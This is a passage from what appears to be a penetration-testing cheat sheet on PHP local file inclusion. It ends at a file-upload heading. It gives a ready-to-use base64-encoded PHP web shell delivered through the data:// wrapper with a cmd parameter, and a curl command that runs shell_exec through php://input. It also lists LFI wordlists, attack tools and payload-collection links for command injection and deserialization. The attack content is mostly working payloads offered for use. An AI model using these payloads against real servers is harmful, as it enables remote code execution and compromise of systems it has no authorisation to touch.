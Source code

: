 ```
echo '<?php passthru($_GET["cmd"]);echo "Shell done !"; ?>' | base64 -w0 -> PD9waHAgcGFzc3RocnUoJF9HRVRbImNtZCJdKTtlY2hvICJTaGVsbCBkb25lICEiOyA/Pgo=

http://example.com/index.php?page=data://text/plain;base64,PD9waHAgcGFzc3RocnUoJF9HRVRbImNtZCJdKTtlY2hvICJTaGVsbCBkb25lICEiOyA/Pgo=

If there is "Shell done !" on the webpage, then there is code execution and you can do things like :

http://example.com/index.php?page=data://text/plain;base64,PD9waHAgcGFzc3RocnUoJF9HRVRbImNtZCJdKTtlY2hvICJTaGVsbCBkb25lICEiOyA/Pgo=&cmd=ls
```

##### Wrapper input://

```
curl -k -v "http://example.com/index.php?page=php://input" --data "<?php echo shell_exec('id'); ?>"
```

#### Useful LFI list

```
# Linux
/home/liodeus/wordlist/SecLists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt

# Windows
/home/liodeus/wordlist/SecLists/Fuzzing/LFI/LFI-gracefulsecurity-windows.txt

# Both
/home/liodeus/wordlist/SecLists/Fuzzing/LFI/LFI-LFISuite-pathtotest-huge.txt
```

#### Tools

```
kadimus --url <URL>
python lfisuite.py
```

### Command injection

For command injection always use BurpSuite !

```
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection
```

### Deserialization

```
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Insecure%20Deserialization
```

### File upload
